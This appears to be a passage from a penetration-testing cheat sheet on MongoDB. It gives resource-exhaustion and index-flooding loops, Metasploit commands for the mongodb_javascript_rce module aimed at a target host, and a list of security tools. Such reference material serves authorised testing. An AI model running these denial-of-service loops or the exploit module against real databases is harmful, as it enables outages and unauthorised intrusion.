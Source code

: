 ### Resource Exhaustion
- **Tool:** [[MongoDB]]
    ```bash
    while(true) { db.collection.insert({ largeField: new Array(10000000).join("x") }) }
    ```

	```
    while true; do mongo --host <target_ip> --eval "db.<collection>.insertMany([...])"; done
    ```
  - **Description:** Overloads the MongoDB server by continuously inserting large volumes of data.

### Index Flooding
- **Tool:** [[MongoDB]]
	```bash
	while(true) { db.collection.createIndex({ field: 1 }) }
	```
- **Description:** Floods the MongoDB server with index creation commands, consuming CPU and memory resources.

## Exploits 

### Remote Code Execution
- **Tool:** [[MongoDB]]
	```bash
	use exploit/linux/misc/mongodb_javascript_rce
	set RHOST <target_ip>
	set RPORT 27017
	run
	```
- **Description:** Using Metasploit's `mongodb_javascript_rce` module to exploit a MongoDB instance with JavaScript execution enabled.

# Resources

|**Website**|**URL**|
|-|-|
|MongoDB Official Documentation|https://docs.mongodb.com/|
|MongoDB Security Checklist|https://docs.mongodb.com/manual/administration/security-checklist/|
|NoSQLMap GitHub Repository|https://github.com/codingo/NoSQLMap|
|Medusa Password Cracker|https://foofus.net/goons/jmk/tools/medusa/medusa.html|
|Hydra - Password Cracking Tool|https://github.com/vanhauser-thc/thc-hydra|
|MongoDB Aggregation Framework|https://docs.mongodb.com/manual/aggregation/|
|Wireshark User Guide|https://www.wireshark.org/docs/wsug_html_chunked/|
|Nmap Reference Guide|https://nmap.org/book/man.html|
|MongoDB Compass Download|https://www.mongodb.com/products/compass|
|TCP/IP Illustrated|https://www.amazon.com/TCP-Illustrated-Volume-Implementation/dp/0201633469|